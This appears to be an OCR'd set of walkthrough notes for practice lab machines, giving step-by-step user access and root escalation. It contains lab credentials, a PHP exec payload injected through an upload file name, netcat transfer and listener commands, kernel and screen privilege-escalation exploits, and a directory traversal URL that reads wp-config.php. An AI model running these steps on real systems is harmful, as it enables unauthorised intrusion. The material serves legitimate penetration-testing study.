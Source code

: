 ```bash
October (.43)
```
Operating SystemLinux
Points20
Similar Machine (User)HackTheBox’s October
Similar Machine (Root)
Exploit to Getting User
1. Brute force directory and you should find /october
2. Brute force /directory folder and you should find config
3. Credential fyodor:picard
4. Upload a reverse shell (PHP) and should be located at /october/backend/cms/media
5. User shell!
Privilege Escalation to Root
1. Run Linux Enumeration and you should find SUID named NfsEn
2. Check for its version because it is vuln to https://github.com/patrickfreed/nfsen-exploit
3. Root shell!

```bash
Textian (.44)
```
Operating SystemLinux
Points20
Similar Machine (User)HackTheBox’s Frolic
Similar Machine (Root)HackTheBox’s Haircut
Exploit to Getting User
1. Port 8787 is an http service
2. Check robots.txt and you should get a hidden directory
3. Credential admin:admin
4. Follow https://www.exploit-db.com/exploits/42003 and upload a CSV file
5. Capture the POST request using Burp and edit the file name to <?php echo exec(‘nc -lvnp
9000 > shell.php 2>&1’); ?>.php
1. In your local machine, transfer the shell.php to target machine by running nc -nv 192.168.XX.53
9000 < shell.php
1. Start a netcat listener to your machine and browse
http://192.168.XX.53:8787/2315e8131432505230f581cf689e783a/shell.php
1. User shell!
Privilege Escalation to Root
1st Way - Linux Kernel
1. Exploit is https://www.exploit-db.com/exploits/45010
2. gcc -o 45010 45010.c
3. Send the binary to target machine and run
4. Root Shell!
2nd Way - Service
1. Run a Linux Enumeration Tool
2. You will see a setuid binary called screen-4.5.0 which is vulnerable to Local Privilege
Escalation - https://www.exploit-db.com/exploits/41154
1. Setup a python server in your local machine and download the exploit to target machine
2. Run the exploit
3. Root shell!

```bash
Socket/WP (.46)
```
Operating SystemWindows
Points25
Similar Machine (User)
Similar Machine (Root)
Exploit in Getting User
1. Gobuster the port 8081 - gobuster -u http://192.168.XX.46:8081 -w
/opt/SecLists/Discovery/Web-Content/common.txt -x txt,php,asp,db
1. CyBroHttpServer 1.0.3 is vulnerable to Directory Traversal -
https://www.exploit-db.com/exploits/45303
1. http://192.168.XX.46:8081/..\..\..\..\xampp\htdocs\blog\wp-config.php
2. Get the credential & Connect to MySQL - mysql -u root -h 192.168.XX.46 -p
3. Use wordpress database and select * from wp_users